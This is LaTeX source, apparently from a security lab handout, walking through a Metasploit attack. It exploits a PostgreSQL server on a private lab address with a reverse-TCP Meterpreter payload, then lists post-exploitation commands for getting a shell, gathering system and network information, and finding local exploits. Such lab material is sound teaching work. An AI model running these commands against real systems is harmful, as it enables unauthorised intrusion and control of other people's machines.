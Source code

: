 \documentclass[twocolumn]{article}
\begin{document}
\subsection{Meterpreter}

To obtain a Meterpreter session in the target, we can use the following commands:
\begin{enumerate}
    \setlength\itemsep{-0.25em}
    \item \texttt{msf5 > use exploit/linux/postgresql/\char`\\}\\
    \hspace*{2.25pt}\texttt{ > postgresql\char`\_payload}
    \item \texttt{msf5 > set payload linux/x86/meterpreter/\char`\\}\\
    \hspace*{2.25pt}\texttt{ > reverse\char`\_tcp}
    \item \texttt{msf5 > set RHOST 192.168.56.101}
    \item \texttt{msf5 > run}
\end{enumerate}

\noindent Some of the most common commands that Meterpreter has are:

\begin{itemize}
    \item List of commands:\\
    \texttt{meterpreter > help}
    \item Obtain shell:\\
    \texttt{meterpreter > shell}
    \item Get user info: \\
    \texttt{meterpreter > getuid}
    \item Get system info:\\
    \texttt{meterpreter > sysinfo}
\end{itemize}

\noindent Additionally, Meterpreter has scripts. The list of available scripts depends on the target. For our setup, we some of the available scripts are:

\begin{itemize}
    \item Check if the target is a virtual machine:\\
    \texttt{run post/linux/gather/checkvm}
    \item Get network configuration:\\
    \texttt{run post/linux/gather/enum\char`\_network}
    \item Get possible local exploits\\
    \texttt{run post/multi/recon/local\char`\_exploit\char`\_suggester}
\end{itemize}
\end{document}
